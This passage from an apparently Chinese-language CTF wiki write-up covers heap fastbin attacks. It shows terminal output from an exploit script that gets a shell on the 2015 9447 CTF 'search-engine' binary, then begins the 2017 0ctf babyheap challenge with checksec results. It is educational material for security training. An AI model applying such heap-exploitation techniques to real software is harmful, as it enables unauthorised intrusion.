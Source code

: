 這裏可能需要多選擇幾個 one_gadget 地址，因爲 one_gadget 成功是有條件的。

#### shell

```shell
➜  2015_9447ctf_search-engine git:(master) python exp.py
[*] '/mnt/hgfs/Hack/ctf/ctf-wiki/pwn/heap/example/fastbin_attack/2015_9447ctf_search-engine/search'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    FORTIFY:  Enabled
[+] Starting local process './search': pid 31158
[*] PID: 31158
[+] unsortedbin addr: 0x7f802e73bb78
[+] libc base addr: 0x7f802e377000
[*] Switching to interactive mode
Enter the sentence:
$ ls
exp.py       search      search.id1  search.nam
libc.so.6  search.id0  search.id2  search.til
```

當然，這裏還有一種[方法](https://www.gulshansingh.com/posts/9447-ctf-2015-search-engine-writeup/)，將 chunk 分配到棧上。

## 2017 0ctf babyheap
[題目鏈接](https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/linux/user-mode/heap/fastbin-attack/2017_0ctf_babyheap)

### 基本信息

```shell
➜  2017_0ctf_babyheap git:(master) file babyheap
babyheap: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=9e5bfa980355d6158a76acacb7bda01f4e3fc1c2, stripped
➜  2017_0ctf_babyheap git:(master) checksec babyheap
[*] '/mnt/hgfs/Hack/ctf/ctf-wiki/pwn/heap/example/fastbin_attack/2017_0ctf_babyheap/babyheap'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

64位程序，保護全部開啓。

### 基本功能

程序是一個堆分配器，主要由以下四種功能
